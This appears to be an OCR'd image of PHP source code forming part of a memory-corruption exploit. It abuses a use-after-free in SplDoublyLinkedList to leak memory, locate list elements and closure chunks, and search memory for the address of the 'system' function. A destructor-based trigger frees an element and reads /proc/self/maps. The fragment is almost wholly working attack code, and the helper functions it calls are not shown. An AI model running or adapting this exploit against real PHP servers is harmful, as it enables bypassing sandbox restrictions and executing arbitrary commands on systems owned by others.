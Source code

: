 ```php
function getElement(&$a, $address) {
    for ($x = 0;$x < ($address[2] / 0x1000 - 2);$x++) {
        $addr = 0x108 + $address[0] + 0x1000 * $x + 0x1000;
        for ($y = 0;$y < 5;$y++) {
            if (leak($a, $addr + $y * 0x08) === 0x1234567812345678 && ((leak($a, $addr + $y * 0x08 - 0x08) & 0xffffffff) === 0x01)){
                echo "[+]SplDoublyLinkedList Element: " . dechex($addr + $y * 0x08 - 0x18) . "\n";
                return $addr + $y * 0x08 - 0x18;
            }
        }
    }
}

function getClosureChunk(&$a, $address) {
    do {
        $address = leak($a, $address);
    }while(leak($a, $address) !== 0x00);
    echo "[+]Closure Chunk: " . dechex($address) . "\n";
    return $address;
}

function getSystem(&$a, $address) {
    $start = $address & 0xffffffffffff0000;
    $lowestAddr = ($address & 0x0000fffffff00000) - 0x0000000001000000;
    for($i = 0; $i < 0x1000 * 0x80; $i++) {
        $addr = $start - $i * 0x20;
        if ($addr < $lowestAddr) {
            break;
        }
        $nameAddr = leak($a, $addr);
        if ($nameAddr > $address || $nameAddr < $lowestAddr) {
            continue;
        }
        $name = dechex(leak($a, $nameAddr));
        $name = str_pad($name, 16, "0", STR_PAD_LEFT);
        $name = strrev(hex2bin($name));
        $name = explode("\x00", $name)[0];
        if($name === "system") {
            return leak($a, $addr + 0x08);
        }
    }
}

class Trigger {
    function __destruct() {
        global $s;
        unset($s[0]);
        $a = str_shuffle(str_repeat("T", 0xf));
        i2s($a, 0x00, 0x1234567812345678);
        i2s($a, 0x08, 0x04, 7);
        $s -> current();
        $s -> next();
        if ($s -> current() !== 0x1234567812345678) {
             die("[!]UAF Failed");
        }
        $maps = file_get_contents("/proc/self/maps");
        if (!$maps) {
            cantRead($a);
        }else {
            canRead($maps, $a);
        }
        echo "[+]Done";
    }
```